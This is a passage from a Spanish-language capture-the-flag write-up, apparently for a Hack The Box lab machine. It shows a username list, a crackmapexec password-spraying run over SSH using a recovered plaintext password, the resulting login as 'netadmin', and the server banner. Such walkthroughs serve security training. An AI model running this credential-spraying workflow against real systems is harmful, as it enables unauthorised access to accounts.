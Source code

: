 - Como tenemos una contraseña y nombres de varios usuarios hice una lista y con `crackmapexec` vi que usuarios usan la contraseña para autenticarse por `ssh` y el usuario `netadmin` la usa.

```bash
➜  nmap cat users.txt
root
adm
mail
network
ntp
netadmin
```

```bash
➜  nmap cme ssh 10.10.11.247 -u users.txt -p 'VeRyUniUqWiFIPasswrd1!' --continue-on-success
SSH         10.10.11.247    22     10.10.11.247     [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.9
SSH         10.10.11.247    22     10.10.11.247     [-] root:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] adm:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] mail:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] network:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [-] ntp:VeRyUniUqWiFIPasswrd1! Authentication failed.
SSH         10.10.11.247    22     10.10.11.247     [+] netadmin:VeRyUniUqWiFIPasswrd1!
```

## Shell as netadmin and user.txt

- Ahora nos podemos conectar y ver la `flag`.

```bash
➜  nmap ssh netadmin@10.10.11.247
The authenticity of host '10.10.11.247 (10.10.11.247)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.247' (ED25519) to the list of known hosts.
netadmin@10.10.11.247's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-162-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 05 Jun 2024 06:45:43 PM UTC

  System load:            0.04
  Usage of /:             70.1% of 4.76GB
  Memory usage:           12%
  Swap usage:             0%
  Processes:              228
  Users logged in:        0
  IPv4 address for eth0:  10.10.11.247
  IPv6 address for eth0:  dead:beef::250:56ff:feb9:e70f
  IPv4 address for wlan0: 192.168.1.1
  IPv4 address for wlan1: 192.168.1.23


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
```